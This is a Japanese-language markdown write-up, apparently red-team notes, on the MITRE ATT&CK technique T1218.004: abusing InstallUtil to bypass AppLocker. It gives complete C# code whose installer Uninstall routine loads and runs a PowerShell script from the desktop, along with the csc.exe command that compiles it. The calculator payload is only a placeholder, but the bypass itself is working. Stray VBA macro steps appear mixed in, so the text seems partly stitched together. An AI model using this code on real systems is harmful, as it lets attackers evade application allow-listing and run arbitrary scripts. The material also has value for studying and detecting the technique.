


# T1218.004 - InstallUtil

InstallUtil
-------------

InstallUtil を用いた AppLocker のバイパスについて記載します。

|  Type  | Description   |
|:---|:---|:---|
|  ID  |  T1218.004  |
|  Tactic  |  Defense Evasion |
|  Techniques  |  Signed Binary Proxy Execution  |
|  Sub-techniques  |  InstallUtil |


VBA マクロを操作するために、リボンの設定から「開発」にチェックを入れます。



追加された開発タブからVisual Basic を選択し、VBA プロジェクトから標準モジュールを挿入します。


ここではリモート端末にホストされた悪意のあるファイル相当の calc.exe ファイルを取得し実行するマクロを実装します。

AppLocker をバイパスして実行させる ps1 形式の Powershell スクリプトを準備します。
ここでは簡単のために、start-process で電卓を起動させるスクリプトを用意します。
本スクリプトは、AppLocker による Powershell.exe の制限環境では実行することはできません。



```
using System;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
public class Program
{
    public static void Main()
    {
    }
}
[System.ComponentModel.RunInstaller(true)]
public class Sample : System.Configuration.Install.Installer
{
    public override void Uninstall(System.Collections.IDictionary savedState)
    {
    Mycode.Exec();
    }
}
public class Mycode
{
    public static void Exec()
    {
    string desktop = System.Environment.GetFolderPath(Environment.SpecialFolder.DesktopDirectory) + "\\app_bypass.ps1";
    string command = System.IO.File.ReadAllText(desktop);
    RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
    Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
    rspace.Open();
    Pipeline pipeline = rspace.CreatePipeline();
    pipeline.Commands.AddScript(command);
    pipeline.Invoke();
    }
}
```

```
cmd /c C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll /unsafe /platform:anycpu /out:%USERPROFILE%\Desktop\Program.exe %USERPROFILE%\Desktop\Program.cs

```